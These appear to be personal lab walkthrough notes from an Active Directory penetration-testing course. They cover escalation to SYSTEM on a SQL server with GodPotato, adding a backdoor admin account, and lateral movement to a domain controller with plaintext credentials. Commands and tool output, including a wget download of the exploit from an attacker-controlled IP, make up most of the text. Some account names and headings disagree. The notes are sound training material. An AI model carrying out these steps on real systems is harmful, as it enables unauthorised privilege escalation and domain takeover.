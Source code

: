 # 1. Elevating privileges on `DB-SQLPROD`
- Since we have service account privileges, we can use **GodPotato** to escalate our privileges on the target server.
```powershell
PS C:\Windows\Tasks> wget http://192.168.100.57/GodPotato-NET4.exe -O GodPotato.exe
PS C:\Windows\Tasks> .\GodPotato.exe -cmd "cmd /c net user dbbackup Password123 /add && net localgroup Administrator dbbackup /add"
[*] CombaseModule: 0x140709910937600
[*] DispatchTable: 0x140709913243760
[*] UseProtseqFunction: 0x140709912619984
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\4a965ad5-68c2-4383-8d31-ec1cc6ad812d\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000b402-15d0-ffff-153c-ebca4be68432
[*] DCOM obj OXID: 0xddb852f08f10e6b8
[*] DCOM obj OID: 0x87066850491b6bc3
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 952 Token:0x828  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 5436
The command completed successfully.
```
- We can now try to access the target server via **winrs** using the created account.
```powershell
PS C:\Auditor> .\PsExec64.exe \\192.168.23.25 -u db-sqlprod\dbbackup -p Password123 powershell

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.23.25:
Access is denied.
```
- We can not access `DB-SQLPROD` via **PsExec**.
- We can leverage our reverse shell at `DB-SQLSRV` as described in [[2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/2. Kill Chain|2. Kill Chain]].
# 2. Rights, Privileges and Permissions of `dbvendor\db57srv` at `db.local`
## 2.1 Access Rights
- `dbvendor\db57srv` has access rights on `DB-DC` as a member of the builtin Administrators group.
- We can abuse those permissions to gain access to `DB-DC`.
```powershell
PS C:\Windows\system32> $target_pass = ConvertTo-SecureString -AsPlainText -Force -String 'Password123!'
PS C:\Windows\system32> $cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "dbvendor\db57svc",$target_pass
PS C:\Windows\system32> Invoke-Command -ComputerName db-dc.db.local -ScriptBlock {whoami;hostname} -Credential $cred

dbvendor\db57svc
DB-DC
```
## 2.2 Account Privileges
- `dbvendor\db57srv` has administrative privileges on `DB-DC` as a member of the builtin Administrators group.
## 3.3 Account Permissions
- `dbvendor\db57srv` has administrative privileges on `DB-DC` as a member of the builtin Administrators group which essentially grants this account permissions of a domain administrator.